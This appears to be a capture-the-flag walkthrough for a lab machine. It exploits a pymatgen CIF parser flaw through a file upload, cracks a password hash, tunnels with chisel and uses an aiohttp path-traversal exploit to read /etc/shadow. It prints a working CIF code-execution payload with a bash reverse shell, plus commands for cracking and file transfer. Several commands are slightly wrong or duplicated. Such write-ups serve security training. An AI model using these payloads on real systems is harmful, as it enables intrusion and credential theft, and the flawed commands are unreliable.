






# User flag

As we usually do when starting all machines, we run an Nmap to scan for open ports.


By doing so, we found that ports 22 and 5000 were open. When we visit port 5000, we see that there is an application running that allows us to log in and register.


If we register, we gain direct access to a page where we can upload files, which will be our main attack vector.



After running Nmap, I saw that the page had `python` configured, so I tried to upload a file with a reverse shell inside, but I received a 405 response. Next, I noticed the example that the page provides, indicating that it only allows the upload of CIF files.

Thus, we tried to upload a file with a double extension, in this case, a PNG file.



Seeing that it succeeded, we tried the same with the reverse shell in Python.

After successfully uploading, we attempted to view the file and received an Internal Server Error. Checking the `View` functionality with a file that had only the `cif` extension worked correctly.

After searching on the Internet, I found the following exploit: [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).
```bash
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("COMMAND");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

In this way, by uploading a `cif` file with this content and changing `COMMAND` to a bash command, we can execute commands remotely.

Therefore, if we use the example file and add the following payload, we can gain access to the victim machine:
```bash
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<IP>/<PORT> 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

Once the connection is established, I recommend upgrading the shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

Upon accessing, we see that we possess the user **app**, and that the user flag belongs to user **rosa**, so we will need to gain access to user **rosa** to view the content of **user.txt**.



If we list the contents of the `/home` directory of our user, we observe that there is a database available, which may contain credentials.



To conveniently share the file, we copy the `database.bd` file to the `/tmp` directory and open a port with Python. Subsequently, we perform a wget on our machine to obtain the file.

```bash
#target machine
sudo python3 -m http.server 8090
#local machine
wget http://<ip>/linpeas.sh
```

Once we have the file, we can use `sqlite3` to interact with it and retrieve the hash of user **rosa**.


To crack **rosa**'s password, we will use the **hashcat** tool.

```bash
hashcat -a 0 -m 0 63ed86ee9f624c7b14f1d4f43dc251a5 /usr/share/wordlists/rockyou.txt
```


Once we have the password, we just need to run `su rosa` on the victim machine to switch to user **rosa** and print the flag.



# Root flag
To review potential vulnerabilities and facilitate privilege escalation, we can use **linpeas**. To do this, we first open a port on our local machine where we have the script downloaded, and then we navigate to the `/tmp` directory of the target machine to retrieve the file:
 
```bash
#local machine
sudo python3 -m http.server 80
#target machine
wget http://<ip>/linpeas.sh
```


## Port Forwarding
 
To review potential vulnerabilities and facilitate privilege escalation, we can use **linpeas**. To do this, we first open a port on our local machine where we have the script downloaded, and then we navigate to the `/tmp` directory of the target machine to retrieve the file:
 
```bash
#local machine
sudo python3 -m http.server 80
#target machine
wget http://<ip>/linpeas.sh
```

When we run **linpeas**, we see that two possible vulnerable ports are marked (`8080`, `53`), so we will attempt to perform port forwarding to see what services might be running on them.

To do this, we will follow the same process as with **linpeas**, but this time with **chisel**.

```bash
#local machine
sudo python3 -m http.server 80
#target machine
wget http://<ip>/chisel
```

Once **chisel** is installed, we need to execute the following commands for port forwarding to work:

```bash
#local machine
chisel server -p 9999 --reverse
#target machine
./chisel client <local_ip>:9999 R:8080:127.0.01:8080
```

Subsequently, if we access the specified port on our local machine, we can see the following page:


Interacting with the page did not yield any attack vectors, so we ran **whatweb** to see if any vulnerable software was being used.


In the response, we see that **Aiohttp** is being used, and with a quick search, we realize there is a CVE associated with that version ([CVE-2024-23334](https://github.com/wizarddos/CVE-2024-23334)).

To use it, we first obtain the **exploit.py** file.

```bash
wget https://raw.githubusercontent.com/wizarddos/CVE-2024-23334/refs/heads/master/exploit.py
```

We are told that to execute it, we need to enter the following command:

```bash
python3 exploit.py -u [url] -f [file] -d [static directory]
```

To find out what the static directory is, we have several options: we can manually try various directories, or we can use an automated tool to fuzz directories, which might be excessive for what we want to find out. In our case, the static directory turned out to be **assets**.

Thus, the command to execute to obtain the root flag is:

```bash
python3 exploit.py -u http://localhost:8080 -f /etc/shadow -d /root/root.txt
```

